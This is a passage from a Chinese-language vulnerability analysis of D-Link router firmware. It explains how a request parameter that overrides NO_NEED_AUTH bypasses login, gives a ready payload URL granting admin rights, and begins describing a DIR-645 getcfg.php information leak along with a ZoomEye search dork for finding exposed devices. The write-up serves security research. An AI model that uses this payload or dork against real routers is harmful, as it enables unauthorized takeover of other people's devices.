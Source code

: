 默认情况下，Web 界面中的所有页面都需要进行身份验证，但是某些页面（如 登录页面） 必须在认证之前访问。 为了让这些页面不进行认证，他们设置了一个 PHP 变量 NO_NEED_AUTH：

    <?
    $MY_NAME ="login_fail";
    $MY_MSG_FILE=$MY_NAME.".php";
    $NO_NEED_AUTH="1";
    $NO_SESSION_TIMEOUT="1";
    require("/www/model/__html_head.php");
    ?>

此漏洞触发的原因在于 全局文件 `_html_head.php`。

    <?
    /* vi: set sw=4 ts=4: */
    if ($NO_NEED_AUTH!="1")
    {
     /* for POP up login. */
    // require("/www/auth/__authenticate_p.php");
    // if ($AUTH_RESULT=="401") {exit;}
     /* for WEB based login */
     require("/www/auth/__authenticate_s.php");
     if($AUTH_RESULT=="401") {require("/www/login.php"); exit;}
     if($AUTH_RESULT=="full") {require("/www/session_full.php"); exit;}
     if($AUTH_RESULT=="timeout") {require("/www/session_timeout.php"); exit;}
     $AUTH_GROUP=fread("/var/proc/web/session:".$sid."/user/group");
    }
    require("/www/model/__lang_msg.php");
    ?>

这里我们看到 `$NO_NEED_AUTH!="1"` 如果 `$NO_NEED_AUTH` 不为 1 则进入身份认证。如果我们把`$NO_NEED_AUTH`值 设置为 1 那就绕过了认证进行任意操作。

payload：

`localhost/bsc_lan.php?NO_NEED_AUTH=1&AUTH_GROUP=0`

这里`AUTH_GROUP=0` 表示 admin 权限

![](https://images.seebug.org/content/images/2017/10/4e00273b-5edb-43ce-86f5-ff89412ffc55.png-w331s)

##### D-Link DIR-645 信息泄露漏洞

**Zoomeye dork:**[DIR-645](https://www.zoomeye.org/searchResult?q=%20DIR-645&t=all)

这里以 D-Link DIR-300 固件为例，解开固件进入 `suashfs-root/htdocs` 文件夹

D-Link DIR-645 `getcfg.php` 文件由于过滤不严格导致信息泄露漏洞。

    $SERVICE_COUNT = cut_count($_POST["SERVICES"], ",");
    TRACE_debug("GETCFG: got ".$SERVICE_COUNT." service(s): ".$_POST["SERVICES"]);
    $SERVICE_INDEX = 0;
    while ($SERVICE_INDEX < $SERVICE_COUNT)
    {
        $GETCFG_SVC = cut($_POST["SERVICES"], $SERVICE_INDEX, ",");
        TRACE_debug("GETCFG: serivce[".$SERVICE_INDEX."] = ".$GETCFG_SVC);
        if ($GETCFG_SVC!="")
        {
            $file = "/htdocs/webinc/getcfg/".$GETCFG_SVC.".xml.php";
            /* GETCFG_SVC will be passed to the child process. */
            if (isfile($file)=="1") dophp("load", $file);
        }
        $SERVICE_INDEX++;
    }
